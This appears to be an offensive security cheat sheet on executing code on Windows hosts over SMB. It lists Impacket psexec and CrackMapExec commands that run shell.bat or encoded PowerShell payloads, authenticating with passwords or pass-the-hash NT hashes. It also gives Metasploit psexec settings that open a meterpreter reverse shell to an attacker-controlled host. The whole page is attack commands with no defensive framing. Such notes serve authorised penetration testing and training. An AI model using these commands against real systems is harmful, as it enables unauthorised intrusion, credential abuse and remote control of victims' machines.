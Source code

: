 # SMB

## 01 - Impacket

- **Authenticate via username and password**

`$ psexec <domain_name>/<username>:<password>@<IP> -c shell.bat`

- **Authenticate via Pass The Hash**

`$ psexec <domain_name>/<username>@<IP> -hashes <LM>:<NT> -c shell.bat`

## 02 - CrackMapExec

- **Authenticate via username and password**

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -p <password> -x shell.bat`

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -p <password> -x "powershell -E <base64_payload>"`

- **Authenticate via Pass The Hash**

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -H <NT> -x shell.bat`

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -H <NT> -x "powershell -E <base64_payload>"`

## 03 - Metasploit

- **Authenticate via username and password**

```
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/psexec) > set lhost <attacker_IP>

msf exploit(windows/smb/psexec) > set lport <PORT>

msf exploit(windows/smb/psexec) > set rhosts <target_IP>

msf exploit(windows/smb/psexec) > set smbdomain <domain_name>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <password>

msf exploit(windows/smb/psexec) > run
```

- **Authenticate via Pass The Hash**

```
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/psexec) > set lhost <attacker_IP>

msf exploit(windows/smb/psexec) > set lport <PORT>

msf exploit(windows/smb/psexec) > set rhosts <target_IP>

msf exploit(windows/smb/psexec) > set smbdomain <domain_name>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <ntlm_hash>

msf exploit(windows/smb/psexec) > run
```
